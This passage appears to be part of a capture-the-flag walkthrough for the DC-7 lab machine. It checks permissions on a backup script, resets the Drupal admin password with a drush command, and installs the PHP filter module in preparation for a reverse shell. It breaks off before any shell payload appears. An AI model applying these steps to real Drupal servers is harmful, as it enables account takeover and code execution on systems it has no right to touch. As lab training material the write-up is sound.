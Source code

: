 The backups.sh script is only writable to `root` or members of the `www-data` group:

~~~
dc7user@dc-7:/opt/scripts$ ls -l backups.sh 
-rwxrwxr-x 1 root www-data 520 Aug 29  2019 backups.sh
~~~

# Lateral move (dc7user -> www-data)

## Reset the Drupal admin account

For once, we need to move laterally to `www-data` (this is quite unusual as we are usually initially gaining a shell as `www-data` and then move laterally to a user). For that, we need to make a reverse shell inside Drupal.

We've seen the use of `drush` in the script. The good thing is that we can use this utility to reset the Drupal admin account:

~~~
dc7user@dc-7:~$ cd /var/www/html/
dc7user@dc-7:/var/www/html$ drush help user-password
(Re)Set the password for the user account with the specified name.

Examples:
 drush user-password someuser       Set the password for the username someuser. @see xkcd.com/936 
 --password="correct horse battery                                                                
 staple"

Arguments:
 name                                      The name of the account to modify.

Options:
 --password=<foo>                          The new password for the account. Required.

Aliases: upwd, user:password
dc7user@dc-7:/var/www/html$ drush user-password admin --password="NewAdminPassword"
Changed password for admin                                                                                [success]
dc7user@dc-7:/var/www/html$ 
~~~

Go to `http://dc-7/user/login` and login with `admin:NewAdminPassword`.

## The PHP-filter module

To make a reverse shell in Drupal, we'll use the PHP-filter module, but it's not installed.

* Download the Drupal PHP filter module here: https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
* Go to `http://dc-7/admin/modules` and upload the module.
* Now, enable the module, under "Manage > Extend > Modules > PHP filter" and check the "PHP filter" box. Scroll down to the very bottom and click on the "Install" button.
